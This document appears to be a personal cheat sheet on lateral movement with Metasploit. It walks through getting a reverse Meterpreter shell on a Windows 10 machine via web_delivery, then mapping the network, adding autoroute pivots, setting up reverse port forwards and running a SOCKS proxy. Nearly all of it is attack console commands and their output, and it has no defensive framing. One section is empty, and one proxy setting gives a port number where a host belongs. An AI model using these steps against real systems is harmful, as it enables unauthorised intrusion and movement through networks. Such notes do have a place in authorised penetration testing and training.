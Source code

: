 # lateral -movement

### metasploit

get a shell on windows 10 machine. here is an example:

On Kali:

```bash
msf6 > search web_delivery
msf6 > use 1
msf6 exploit(multi/script/web_delivery) > options
...
msf6 exploit(multi/script/web_delivery) > set lhost eth0
msf6 exploit(multi/script/web_delivery) > set lport 1337
msf6 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_http
msf6 exploit(multi/script/web_delivery) > set target 2
msf6 exploit(multi/script/web_delivery) > exploit -j
```

On Windows:

```powershell
PS > <run whatever they tell you to run>
```

Back to Kali, enter session:

```bash
msf6 exploit(multi/script/web_delivery) > sessions
...
msf6 exploit(multi/script/web_delivery) > sessions -i 1
```

```bash
meterpreter > 
```

### basic network mapping using built-in windows commands

```
meterpreter > ipconfig
meterpreter > arp -a
```

### set up routes on metasploit

On msf5:

```bash
meterpreter > run autoroute -s <network-id/subnet>
```

```bash
meterpreter > run autoroute -p
```

```
IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.16.0       255.255.255.0      Session 1
```

On msf6:

```bash
meterpreter > run post/multi/manage/autoroute cmd=add SUBNET=<subnet> NETMASK=<netmask>
```

```bash
meterpreter > run post/multi/manage/autoroute cmd=add SUBNET=192.168.16.0 NETMASK=/24
```

```bash
meterpreter > run post/multi/manage/autoroute cmd=print
```

```
IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.16.0       255.255.255.0      Session 1
```

### more advanced network mapping

```
```



### reverse port forwarding

```bash
meterpreter > portfwd add -R -p <local-listening-port> -l <port-to-forward-to> -L <IP-to-forward-to>  
```

```bash
meterpreter > portfwd add -R -p 1234 -l 443 -L 192.168.3.28
```

Run proxy server on Kali:

```bash
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set srvhost 9050
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > exploit -j
```


